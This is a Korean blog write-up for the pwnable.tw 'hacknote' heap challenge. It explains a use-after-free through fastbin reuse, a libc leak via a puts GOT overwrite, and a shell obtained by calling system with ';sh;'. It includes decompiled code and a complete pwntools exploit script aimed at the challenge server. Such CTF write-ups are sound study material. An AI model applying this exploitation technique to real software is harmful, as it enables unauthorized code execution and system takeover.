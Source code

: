 ```yaml
---
layout: post
title: "pwnable.tw - hacknote Write-Up"
date: 2018-10-30
excerpt: "200pts"
tags: [write-up]
comments: true
---
```

Use After Free 취약점을 이용한 heap exploit
* * *
![main](https://t1.daumcdn.net/cfile/tistory/99A1D3345BC8899029)

메인은 간단하게
1. Add note
2. Delete note
3. Print note
4. Exit

으로 이루어져있으며 히든 메뉴는 없습니다.
```c
unsigned int sub_8048646()
{
  _DWORD *v0; // ebx
  signed int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf; // [esp+14h] [ebp-14h]
  unsigned int v5; // [esp+1Ch] [ebp-Ch]
 
  v5 = __readgsdword(0x14u);
  if ( dword_804A04C <= 5 )
  {
    for ( i = 0; i <= 4; ++i )
    {
      if ( !ptr[i] )
      {
        ptr[i] = malloc(8u);
        if ( !ptr[i] )
        {
          puts("Alloca Error");
          exit(-1);
        }
        *(_DWORD *)ptr[i] = sub_804862B;
        printf("Note size :");
        read(0, &buf, 8u);
        size = atoi(&buf);
        v0 = ptr[i];
        v0[1] = malloc(size);
        if ( !*((_DWORD *)ptr[i] + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)ptr[i] + 1), size);
        puts("Success !");
        ++dword_804A04C;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
  {
    puts("Full");
  }
  return __readgsdword(0x14u) ^ v5;
}
```
위는 Add note의 디컴파일된 코드인데, 대부분의 heap exploit 바이너리처럼 일반적인 방식으로 malloc만 하는 것이 아니라

바이너리 자체에서 특수한 방식으로 note을 배열하고 관리합니다.

![chunk](https://t1.daumcdn.net/cfile/tistory/99C6A23D5BC88BF702)

Add note로 생성된 note는 위와 같은 형태로 구성되며
```c
int __cdecl sub_804862B(int a1)
{
  return puts(*(const char **)(a1 + 4));
}
```
위 코드처럼 인자+4를 출력하는, 그림에선 puts(+4)로 표현되어 있는 함수 주소와

우리가 입력한 데이터의 주소를 user_data로 가지는 chunk가 먼저 할당되고, 그 밑에 사용자가 요청한 chunk가 할당됩니다.

또한 Delete note시 heap N-1이 먼저 free되고, heap N-2가 그 다음으로 free됩니다. 하지만 ptr은 남아있어 exploit에 이용됩니다.
```c
unsigned int sub_80488A5()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]
 
  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  v1 = atoi(&buf);
  if ( v1 < 0 || v1 >= dword_804A04C )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[v1] )
    (*(void (__cdecl **)(void *))ptr[v1])(ptr[v1]);
  return __readgsdword(0x14u) ^ v3;
}
```
Print note를 눈여겨보아야 하는데, 지정한 인덱스의 chunk의 puts(+4)를 인자로 puts(+4)를 call합니다.

따라서 만약 우리가 puts(+4)와 &data를 임의의 값으로 바꾸면 Print note시 원하는 함수를 실행할 수 있습니다.

일단 exploit 루트는 uaf인데, fastbin을 두 개 할당해주고 한번 free하면 heap N-1과 heap N-2의 크기 차이로 다른 fastbin에 들어가게 됩니다.

![fastbin](https://t1.daumcdn.net/cfile/tistory/992BF6445BC8902010)

이 후 더 작은 크기의  fastbin을 요청하면 heap N-1과 heap N-2 모두 (저 상황에서) 0x10 fastbin에서 할당됩니다. (배열 꼬임)

fastbin의 특성상 두번째 free된 chunk가 먼저 할당되고, 첫번째 heap N-1이 우리가 새롭게 할당된 chunk N-2의 위치가 되는 것입니다.

ptr은 유지되어 우리가 puts(+4)는 유지한채 아무 함수의 got를 &data에 덮어 씌우면  Print note시 libc leak이 가능하게 됩니다.


libc leak 후 offset을 이용해 system을 구하면 같은 원리로 쉘 취득이 가능합니다.

이떄 Print note로 실행되는 함수는 함수 주소와 인자가 같아(ptr[v1]) 단순히 system + &/bin/sh을 넘긴다면 system("&system/binsh")가 되므로 쉘을 얻을 수 없습니다. 

그러므로 단순히 system + ";sh;"를 넘기면 system("&system;sh;")로 쉘이 따집니다.

exp.py
```python
from pwn import *
 
#p = process('./hacknote')
p = remote('chall.pwnable.tw', 10102)
e = ELF('./hacknote')
 
puts_got = e.got['puts']
print_4 = 0x0804862b
 
 
puts_offset = 0x5f140
system_offset = 0x3a940
 
'''
PROCESS
puts_offset = 0x5fca0
system_offset = 0x3ada0
'''
 
def alloc(size, payload):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Note size :')
    p.sendline(str(size))
    p.recvuntil('Content :')
    p.sendline(payload)
 
def free(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(idx))
    
def dump(idx):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(idx))
 
# leak libc
alloc(24, 'AAAA')
alloc(24, 'BBBB')
 
free(0)
free(1)
payload = p32(print_4)
payload += p32(puts_got)
 
alloc(12, payload)
dump(0)
 
leak = u32(p.recv(4))
 
base = leak - puts_offset
system = base + system_offset
 
log.success('libc base leaked : ' + hex(base))
 
#exploit
free(2)
 
payload = p32(system)
payload += ";sh;"
 
alloc(8, payload)
dump(0)
 
p.interactive()
```
* * *
UAF는 의도치 않게 heap 배열이 꼬여버리는 현상에서 시작되는 것 같습니다.
